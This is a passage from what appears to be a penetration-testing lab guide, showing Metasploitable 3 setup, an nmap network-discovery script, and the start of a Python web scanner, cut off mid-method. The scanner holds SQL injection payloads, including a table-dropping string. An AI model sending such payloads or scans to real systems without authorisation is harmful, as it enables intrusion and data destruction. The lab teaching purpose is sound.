 ##### Metasploitable 3
```bash
# Installation with Vagrant
vagrant init rapid7/metasploitable3-ub1404
vagrant up

# Manual installation
wget https://github.com/rapid7/metasploitable3/releases/download/v2.0.0/metasploitable3-ub1404.box
vagrant box add metasploitable3 metasploitable3-ub1404.box
```

### Practical Exercises

#### Exercise 1: Network Discovery
```bash
#!/bin/bash
# Network Discovery Script

echo "[+] Starting Network Discovery"

# Host Discovery
echo "[+] Discovering live hosts..."
nmap -sn 192.168.1.0/24 | grep "Nmap scan report" | awk '{print $5}'

# Port Scanning
echo "[+] Scanning common ports..."
nmap -sS -O -sV --top-ports 1000 192.168.1.0/24

# Service Enumeration
echo "[+] Enumerating services..."
nmap -sC -sV -p- 192.168.1.100

echo "[+] Discovery completed"
```

#### Exercise 2: Web Application Testing
```python
#!/usr/bin/env python3
# Web Application Security Scanner

import requests
import sys
from urllib.parse import urljoin
from bs4 import BeautifulSoup

class WebScanner:
    def __init__(self, target_url):
        self.target_url = target_url
        self.session = requests.Session()
        self.vulnerabilities = []
    
    def sql_injection_test(self, url):
        """Test for SQL Injection vulnerabilities"""
        payloads = [
            "' OR '1'='1",
            "' UNION SELECT NULL--",
            "'; DROP TABLE users--"
        ]
        
        for payload in payloads:
            try:
                response = self.session.get(url, params={'id': payload})
                if "mysql" in response.text.lower() or "syntax error" in response.text.lower():
                    self.vulnerabilities.append({
```